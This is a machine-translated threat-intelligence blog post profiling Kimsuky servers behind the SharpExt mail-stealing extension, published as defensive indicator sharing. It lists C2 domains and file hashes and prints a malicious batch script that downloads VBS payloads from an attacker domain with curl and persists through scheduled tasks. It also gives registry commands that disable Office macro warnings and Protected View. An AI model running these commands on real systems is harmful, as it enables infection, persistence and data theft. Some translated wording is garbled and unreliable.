



# 在 SharpExt 上旋转，以描绘 Kimsuky 面板的最佳效果

> 原文：<https://medium.com/walmartglobaltech/pivoting-on-a-sharpext-to-profile-kimusky-panels-for-great-good-1920dc1bcef9?source=collection_archive---------7----------------------->

作者:杰森·里维斯和约书亚·普拉特


Volexity 最近发布了一篇博客，详细介绍了 Kimsuky[2]正在利用的一个名为 SharpExt[1]的浏览器扩展恶意软件。正如博客中详细描述的那样，SharpExt 的目标是最终从受害者那里窃取电子邮件和附件。这个博客纯粹是为了从我们通过旋转和研究恢复的项目中扩展现有的工作。

根据他们的研究以及女猎手的一些研究[3]，我们还在 2021 年的一份报告中发现了与早期活动的联系[4]。有一个地方特别有趣。

```
http://nuclearpolicy101[.]org/wp-admin/includes/0421/d[.]php?na=vbtmp 14
```

Kimsuky 已经使用该网站一年多了，今年早些时候进行了更新，提供了浏览器扩展代码:



来自 nuclearpolicy101 的 bg.js 文件也列出了与 Volexity 博客相同的 C2:

```
var g_url = "https://gonamod.com/sanghyon/index.php",g_devtabs=[]; 20
```

第二个国际奥委会名单来自西基斯的沃尔西蒂。]com，更有趣一点。这个网站不是一个妥协的网站，而是一些演员控制的。该网站是托管多个网站，以及连接到一些运动详细从女猎手。但是，VPS 文件夹已被重命名。此服务器上的当前域设置:

```
dusieme.com/ 
eislesf.live/ 
ielsems.com/ 
ilijw.live/ 
siekis.com/ 
soekfes.live/ 
sqiesbob.com/
```

在前面提到的博客[1，3]中可以看到这些活动所利用的一些域名。这些文件的结构通常是以下文件的组合:

```
cow.php
d.php
r.php
sc.php
his.php
index.php
upload.php
upload_dotm.php
doc.php
macro.php
resp.txt
res/
```

该文件夹中的其他文件与交付的各种 powershell、批处理文件、dll 和浏览器扩展相关。

其他一些域用于浏览器扩展的 C2 活动，以及浏览器扩展所需的任何必要文件。这些文件夹通常包含以下内容:

```
index.php
manage.php
code.js
list.txt
black_list.txt
att/
domain/
mail/
```

通过我们的研究，我们能够根据交通数据描绘出一些受害者特征:



热点似乎只是证实了对美国、欧洲和韩国等预定目标的其他报道[1]。

# 旧的活动

在我们的研究中，我们还从没有使用浏览器扩展的旧活动中恢复了信息。令人惊讶的是，演员们似乎在某些活动中使用了 UltraViewer:



从我们找到的文件来看，这个组织仍然非常活跃:

```
ESDU Tokuchi.doc
ad869e6765212fb1c724936a4e9b6a35
Created: 2022-04-29Interview memo_Gareth.doc
e6f6dedc573c7be462e74ff1289aab34
Created: 2022-05-08Donga-A_VAN.doc
a7b6491683766b01b7b9c76652a3993f
Created: 2022-03-07TBS TV_Qs.doc
77258de4bfa37fe26d5b4d6348fd31a6
Created: 2022-04-09NEWSIS_interview.doc
b3103f9543b31d00d9fecf3943cb6b6d
Created: 2022-01-26China.doc
46bc9c7ed36f6f8d2c3f968cb758df1f
Created: 2022-03-28Interview memo_Ralph.doc
9c2434cbfa7e6ff49c67bfc74a6bf7bc
Created: 2022-04-24US-ROK Tech Cooperation Goodman.doc
df7cd79c5e9cc5471f1772f75b646467
Created: 2022-04-25CM College_interview.doc
36e6f04777e1bbdc719a3adc7d842586
Created: 2022-04-27Interview memo_patrick.doc
42805ec97173c4a074580d473aeecbe4
Created: 2022-04-21Upholding the RBO in the INdo-Pac.doc
b57e9474698823fcb300ad29b2ddd657
Created: 2022-04-10
```

与过去的活动类似，他们继续使用 HWP(韩文文字处理器)文档:

```
The Burden of the Unintended.hwp
Created 2022-02-24
```

执行时，HWP 文档会执行一个类似于下面的批处理文件:

```
kill /im OneDriveStandaloneUpdater.exe /f 2taskkill /im OneDriveStandaloneUpdater.exe /f 3curl -o "%appdata%\microsoft\windows\start menu\programs\startup\OneNote.vbs" https://dusieme.com/hwp/d.php?na=colegg1.gif 4curl -o "%appdata%\microsoft\windows\colegg2.vbs" https://dusieme.com/hwp/d.php?na=colegg2.gif 5curl -o "%appdata%\microsoft\windows\colegg3.vbs" https://dusieme.com/hwp/d.php?na=colegg3.gif 6curl -o "%appdata%\microsoft\windows\1.xml" https://dusieme.com/hwp/d.php?na=sched.gif 7schtasks /create /tn IdleSetting /xml %appdata%\microsoft\windows\1.xml /f >>"%appdata%\microsoft\windows\1.log" 8dir "%appdata%\microsoft\windows\*.*">>"%appdata%\microsoft\windows\1.log" 9dir "C:\Program Files (x86)\*.*">>"%appdata%\microsoft\windows\1.log" 10dir "C:\Program Files\*.*">>"%appdata%\microsoft\windows\1.log" 11tasklist >>"%appdata%\microsoft\windows\1.log" 12C:\Windows\System32\wscript.exe /b "%appdata%\microsoft\windows\colegg3.vbs" 13del "%temp%\~DF9B1C729B001D998E.tmp" 14del "%temp%\urlmon.dll" 15del "%temp%\OneDriveStandaloneUpdater.exe" 16taskkill /im hwp.exe /f 17taskkill /im hwp.exe /f 18copy "%temp%\The Burden of the Unintended.tmp" "%userprofile%\Downloads\The Burden of the Unintended.hwp" /y 19"%userprofile%\Downloads\The Burden of the Unintended.hwp" 20del "%temp%\The Burden of the Unintended.tmp" 21del "%~f0"
```

# IOCs

网络:

```
souibi.com
dusieme.com
eislesf.live
ielsems.com
ilijw.live
siekis.com
soekfes.live
sqiesbob.com
gonamod.com
beastmodser.club
nuclearpolicy101.org (compromised)
frebough.com
hodbeast.com
newspeers.com
newspeers.us
visitnewsworld.xyz
docsaccess.xyz
resepmo.com
retmodul.com
worldinfocontact.club
wrldinfocontact.club
secmets.live
preheds.shop
```

命令:

```
reg add HKEY_CURRENT_USER\Software\RegisteredApplications /v AppXr1bysyqf6kpaq1aje5sbadka8dgx3g4g /t reg_sz /d <vb code>schtasks /create /tn "Diagnosis\Windows Defender\Microsoft-Windows-UpdateDefender5" /tr "wscript.execmd.exe /c copy ""%appdata%\microsoft\windows\c1.tmp"" ""%appdata%\microsoft\windows\c1.bat"" & ""%appdata%\microsoft\windows\c1.bat"" & del ""%appdata%\microsoft\windows\c1.tmp""cmd.exe /c copy ""%appdata%\microsoft\windows\c2.tmp"" ""%appdata%\microsoft\windows\c2.bat"" & ""%appdata%\microsoft\windows\c2.bat"" & del ""%appdata%\microsoft\windows\c2.tmp""ws.run("certutil -f -encode ""%appdata%\microsoft\windows\1.log"" ""%appdata%\microsoft\windows\2.log"" ",0,true)wscript.exe /b "%appdata%\microsoft\windows\colegg2.vbs"cmd.exe /c copy "%appdata%\\microsoft\\windows\\wctDC18.tmp" "%appdata%\\microsoft\\windows\\wctDC18.bat" & "%appdata%\\microsoft\\windows\\wctDC18.bat" & del "%appdata%\\microsoft\\windows\\wctDC18.tmp"reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\13.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\13.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\13.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\15.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView" /v DisableInternetFilesInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\13.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView" /v DisableAttachementsInPV /t REG_DWORD /d "1" /f

reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /f

reg add "HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView" /v DisableUnsafeLocationsInPV /t REG_DWORD /d "1" /f

reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Word\Security" /v VBAWarnings /t REG_DWORD /d "1" /freg add "HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Excel\Security" /v VBAWarnings /t REG_DWORD /d "1" /freg add "HKEY_CURRENT_USER\Software\Microsoft\Office\15.0\Excel\Security" /v VBAWarnings /t REG_DWORD /d "1" /freg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security" /v VBAWarnings /t REG_DWORD /d "1" /f
```

恢复的文档:

```
42805ec97173c4a074580d473aeecbe4
b57e9474698823fcb300ad29b2ddd657
ed424b7dbe6ce5dfdd051fca7d216ea4
43d95c74d3ed1e4ee8f07c286a95258b
36e6f04777e1bbdc719a3adc7d842586
bd69b7fe688f121f33f2cb752d3d9aee
d902d7688d75dddca219a3eac5bbab10
31bafa8e3dfee43e305fd1bb1174ebea
bba46893cb8b8130aeca98955751d8df
f8ddac12d26c0cda72f6b37d405525fc
a7a6a36e6dbe3816209786f4e04a2936
7306d5afdd54164650a17c66f354dea4
1907f12e443edbae04d85a7981f50e46
7c387100acfd1129ef59753f469950de
98955bcdce0d45d2dcd328c4c762b598
8db970e3670c8dcdea1ac346df6a5409
c23157dc5f321a461b7c6e84a83ed462
f4e98ff7a041291311f4a2d548fb1204
da9b66ad97b93e5b11cbd9b4e6f255b9
e023261bf272a96a13a1765fc579257f
b3103f9543b31d00d9fecf3943cb6b6d
ee1b273c729a946d494826fa0104a51f
f4e98ff7a041291311f4a2d548fb1204
7cb6eca45f351670e48e3b54f252ac4d
1de67d829884ea1f4b51c94104b47374
d902d7688d75dddca219a3eac5bbab10
80e5fc84e30c208fb4d0e71046c26b11
77258de4bfa37fe26d5b4d6348fd31a6
a7b6491683766b01b7b9c76652a3993f
aa8b64f8b22126b1199d345ee5088003
46bc9c7ed36f6f8d2c3f968cb758df1f
d902d7688d75dddca219a3eac5bbab10
2def674177ad929ffe91545fee474132
e6f6dedc573c7be462e74ff1289aab34
e1e6dc332827b958e93b3548f647d70c
ad869e6765212fb1c724936a4e9b6a35
3e8846e6e4eb963077aa3e0f5134b072
9c2434cbfa7e6ff49c67bfc74a6bf7bc
df7cd79c5e9cc5471f1772f75b646467
edf19a5f034d6251d652b3ad353c4fe9
3c9c5e555e6b4b8cfa9046a08f3cf92b
```

# 参考

1:[https://www . volexity . com/blog/2022/07/28/sharp tongue-deployments-clever-mail-stealing-browser-extension-sharp ext/](https://www.volexity.com/blog/2022/07/28/sharptongue-deploys-clever-mail-stealing-browser-extension-sharpext/)

2:【https://malpedia.caad.fkie.fraunhofer.de/actor/kimsuky 

3:[https://www . huntress . com/blog/targeted-apt-activity-baby shark-is-out-for-blood](https://www.huntress.com/blog/targeted-apt-activity-babyshark-is-out-for-blood)

4:【http://www.hackdig.com/07/hack-420942.htm 